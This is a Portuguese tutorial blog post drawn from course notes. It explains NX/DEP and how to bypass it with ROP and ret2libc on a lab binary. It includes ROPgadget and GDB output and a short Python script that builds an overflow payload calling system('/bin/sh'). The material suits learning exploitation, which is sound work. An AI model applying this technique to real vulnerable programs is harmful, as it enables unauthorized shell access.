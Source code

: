 ```yaml
---
layout: post
title: bypass NX/DEP do CEB(mentebinaria)
date: 2024-01-10
description: binary exploitation
categories: bin-exp
---
```


### Bypass NX/DEP

### Esse texto reúne o que aprendi sobre bypass de NX juntando as video aulas do curso CEB de exploração de binarios. Aula do 07 a 14 (https://www.youtube.com/playlist?list=PLIfZMtpPYFP4MaQhy_iR8uM0mJEs7P7s3)

Primeiro vamos a uma breve introdução sobre o NX ou também conhecido como DEP(Data Execution Prevention):

O NX/DEP é uma técnica de mitigação de exploração usada para garantir que apenas segmentos de código são sempre marcados como executáveis...

Ok, mas como assim somente segmentos de código marcados como executáveis??

Bom, vamos lá. Nos writeups anteriores vimos que para explorar os binários, usamos a técnica de Buffer-overflow para sobrescrever um endereço de retorno e, logo depois dessa sobrescrita, jogamos algum shellcode na stack, para assim ganharmos controle sobre o fluxo de execução do binário. Essa exploração só é possível porque o binário em questão foi compilado com a flag ``` -z execstack ``` que desabilita a proteção NX.

Agora com a proteção ativada, as areas da stack e heap NÃO possuem permissão de execução. Sendo assim, não será possível realizar a exploração jogando algum shellcode na stack, porque simplesmente não será executado (e provavelmente resultara em um SEGFAULT).

Sabendo disso, vamos para a parte do bypass...

### Bypass

* "If you can’t inject (shell)code to do your bidding, you
must re-use the existing code!" RPISEC - MBE lecture_07

Se você não pode injetar código... reutilize o código existente.


O bypass mais conhecido para o NX é o ROP ```(Return Oriented Programming)```. ROP é uma técnica para reutilizar código/instruções existentes em um binário para montar algo malicioso. Outros termos conhecidos são ``` ROPgadgets/Gadgets ``` e ``` ROPchain ```.

Os ``` ROPgadgets ``` ou só ``` Gadgets ``` basicamente são instruções presentes na memória do binário, que não fazem parte da execução da ```main```, mas podem ser utilizadas porque são parte da execução do binário (e geralemente terminam com uma instrução ```RET```). Esses gadgets podem ser usados para montar instruções maliciosas semelhante a um shellcode. A junção desses gadgets é chamada de ``` ROPchain ```.


### Tudo bem, ja sabemos o que é o NX e qual tecnica é usada para "bypassa-lo". Agora vamos para a demonstração:

A ideia é a seguinte: já que não podemos executar um shellcode através da stack, temos que executar algo parecido, então vamos usar a técnica ```ret2libc```. Essa técnica consiste em fazer o binário chamar funções da libc usando os endereços de memória carregados pelo próprio binário em tempo de execução. 

Para o exemplo chamaremos a função ```system()```, e como a função system() sem argumentos não faz nada, vamos passar pra ela a string ```"/bin/sh"``` . Dessa forma temos algo parecido com um shellcode.

### Step by step da exploração

#### 1 - O binário usado de exemplo nas aulas era vulneravel a um B.O.F, então a primeira coisa a fazer é estourar o buffer e controlar algum endereço de retorno.


#### 2 - Depois de explorar o B.O.F precisamos saber qual ```Gadget``` pode ser usado de forma maliciosa. Para isso vamos usar a tool ROPgadget (https://github.com/JonathanSalwan/ROPgadget) .

Vamos procurar ```gadgets``` filtrando por ```"pop rdi"```. Porque os registradores ```RDI``` e ```RSI``` são usados para passagem de argumentos na arquitetura de 64 bits. Para que o argumento "/bin/sh" seja passado para a função system ele precisa estar em algum desses registradores.

Rodando a tool e analisando a saida, vemos a instrução que precisamos:

```sh
$ ROPgadget --binary aula_13 --ropchain | grep "pop"

...

0x00000000004011ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004011af : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000401109 : pop rbp ; ret
0x00000000004011b3 : pop rdi ; ret 	<====== essa aqui
0x00000000004011b1 : pop rsi ; pop r15 ; ret
0x00000000004011ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```

Deixe o endereço separado e vamos para o próximo passo.


#### 3 - Agora precisamos achar o endereço da string ```"/bin/sh"``` na memória a qual o binário tem acesso em tempo de execução. 

Para isso vamos rodar o binário no GDB, setar um breakpoint qualquer e logo depois da execução parar no breakpoint, vamos buscar pela string "/bin/sh" da seguinte forma: ``` gdb-peda$ find "/bin/sh" ```

```sh
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7f745bd --> 0x68732f6e69622f ('/bin/sh')
```

Deixe esse endereço separado também e vamos para o próximo passo.



#### 4 - A ultima das nossas buscas será pelo endereço da função ```system()```. Fazendo da mesma forma que o endereço de "/bin/sh".

Rode o binário no GDB, sete um breakpoint qualquer e logo depois da execução parar no breakpoint, busque pelo endereço da seguinte forma: ``` gdb-peda$ p system ```


```sh
gdb-peda$ p system
$1 = {int (const char *)} 0x7ffff7e12290 <__libc_system>
```


#### 5 - Depois de ter os endereços necessários vamos montar o script do exploit:


```py
import struct

buf = b""
buf += b"A"*88                              #JUNK
buf += struct.pack("<Q", 0x4011b3)      #POP RDI; RET;
buf += struct.pack("<Q", 0x7ffff7f745bd)    #POINTER TO "/bin/sh"
buf += struct.pack("<Q", 0x7ffff7e12290)    #SYSTEM ADDR

f = open("exp", "wb")
f.write(buf)
```


#### 6 - Agora com tudo pronto vamos executar o exploit e ver como tudo funciona:


* RET sobrescrito com o Gadget


![a](https://github.com/geleiaa/blog-repo/blob/main/imgs/bpnx1.png)



* O "/bin/sh" seguido pela função system na stack


![a](https://github.com/geleiaa/blog-repo/blob/main/imgs/bpnx2.png)



* "/bin/sh" passado para o registrador RDI


![a](https://github.com/geleiaa/blog-repo/blob/main/imgs/bpnx3.png)



* entrando na função system 


![a](https://github.com/geleiaa/blog-repo/blob/main/imgs/bpnx4.png)



* GDB termina execução e sai startando um novo processo


![a](https://github.com/geleiaa/blog-repo/blob/main/imgs/bpnx5.png)



* rodando a exploração fora do GDB


![a](https://github.com/geleiaa/blog-repo/blob/main/imgs/bpnx6.png)


